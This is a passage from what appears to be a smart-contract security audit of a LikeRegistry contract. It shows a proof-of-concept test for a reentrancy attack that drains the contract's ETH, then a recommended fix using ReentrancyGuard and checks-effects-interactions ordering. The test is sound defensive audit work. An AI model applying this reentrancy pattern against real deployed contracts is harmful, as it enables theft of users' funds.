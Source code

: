 ```solidity
    likeRegistry.likeUser{value: 1 ether}(address(attacker));
    
    // Log state after first like
    console.log("Contract Balance After Like:", address(likeRegistry).balance);
    
    // Execute attack
    uint256 preAttackBalance = address(attacker).balance;
    attacker.attack{value: 3 ether}(bob);
    uint256 postAttackBalance = address(attacker).balance;
    
    // Verify the attack's success
    console.log("Contract Balance After Attack:", address(likeRegistry).balance);
    console.log("Attacker Profit:", postAttackBalance - preAttackBalance);
    
    // Assert the vulnerability
    assertGt(postAttackBalance, preAttackBalance, "Reentrancy attack succeeded");
    assertGt(attacker.attackCount(), 1, "Multiple reentrant calls succeeded");
    assertLt(address(likeRegistry).balance, 1 ether, "Contract drained");
}
```

**Recommendation**:
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract LikeRegistry is Ownable, ReentrancyGuard {
    function likeUser(address liked) external payable nonReentrant {
        // ... existing code
    }
    
    function matchRewards(address from, address to) internal {
        // Update state before external calls
        uint256 matchUserOne = userBalances[from];
        uint256 matchUserTwo = userBalances[to];
        userBalances[from] = 0;
        userBalances[to] = 0;
        
        // Calculate rewards after state updates
        uint256 totalRewards = matchUserOne + matchUserTwo;
        uint256 matchingFees = (totalRewards * FIXEDFEE) / 100;
        uint256 rewards = totalRewards - matchingFees;
        totalFees += matchingFees;
        
        // External calls last (CEI pattern)
        MultiSigWallet multiSigWallet = new MultiSigWallet(from, to);
        (bool success,) = payable(address(multiSigWallet)).call{value: rewards}("");
        require(success, "Transfer failed");
    }
}
```

### 2. Stuck ETH in Contract (HIGH)
